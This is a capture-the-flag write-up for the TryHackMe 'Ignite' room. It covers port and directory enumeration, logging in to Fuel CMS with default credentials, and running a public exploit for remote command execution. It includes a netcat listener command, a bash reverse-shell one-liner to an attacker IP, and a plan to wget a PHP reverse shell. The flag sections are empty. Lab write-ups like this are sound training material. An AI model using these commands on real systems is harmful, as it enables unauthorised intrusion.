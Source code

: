 # TryHackMe - Ignite

[Room link](https://tryhackme.com/room/ignite)

---

## Enumeration

I use nmap for scanning the machine ports and services avalaibles.

First scan :

```bash
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:E2:A6:89:F5:5D (Unknown)
```

---

### HTTP 80

Let's move on the website on port 80. We can wee on the default page the CMS Fuel.

Let's rum a dirb scan :

```bash
$ dirb http://<target_IP>
[...]
==> DIRECTORY: http://10.10.85.16/assets/
+ http://10.10.85.16/home (CODE:200|SIZE:16593)                              
+ http://10.10.85.16/index (CODE:200|SIZE:16593)                             
+ http://10.10.85.16/index.php (CODE:200|SIZE:16593)                         
+ http://10.10.85.16/lost+found (CODE:400|SIZE:1134)                         
+ http://10.10.85.16/offline (CODE:200|SIZE:70)                              
+ http://10.10.85.16/robots.txt (CODE:200|SIZE:30)                           
+ http://10.10.85.16/server-status (CODE:403|SIZE:299)                       
                                                                             
---- Entering directory: http://10.10.85.16/assets/ ----
                                                                              + http://10.10.85.16/assets/@ (CODE:400|SIZE:1134)                           
                                                                              ==> DIRECTORY: http://10.10.85.16/assets/cache/
                                                                              ==> DIRECTORY: http://10.10.85.16/assets/css/                                                      
```

We can see a robots.txt available. If you go to check it in, you will see an another available directory on this website called /fuel/.

Now, we have an authentication form. Let's check the default credentials of the CMS.

The default credentials are : admin/admin. Try to test it.

That works ! We are connect as admin user.



---

## Exploitation

From the administration interface of the CMS, i meet some troubles for change anything.. 

In the same time, I checked if an exploit for Fuel CMS 1.4 exists. I found this follow :

```bash
$ searchsploit fuel cms
[...]
$ searchsploit -m 47138
```

I just delete the proxy variable and delete the proxy argument in the requests.get.

```bash
#       proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url)
```

Run this exploit with the "id" remote command. 

```bash
$ python 47138.py
[...]
cmd:id
[...]
cmd:id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)

<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">
[...]
```

We can try to send a command to set up a reverse shell. Don't forget to set a nc listener ( example : $ nc -lnvp 4444).

```bash
cmd:"bash -c 'exec bash -i &>/dev/tcp/<my_ip>/<listener_port> <&1'"
``̀

That does not works. So let's try to set up a webserver on local and execute a wget command from the target to my machine for get a php reverse shell file.

```bash
# Local (we need to have our reverse shell file on the current directory)
$ python3 -m http.server 80
```

## User flag



---

## Root flag


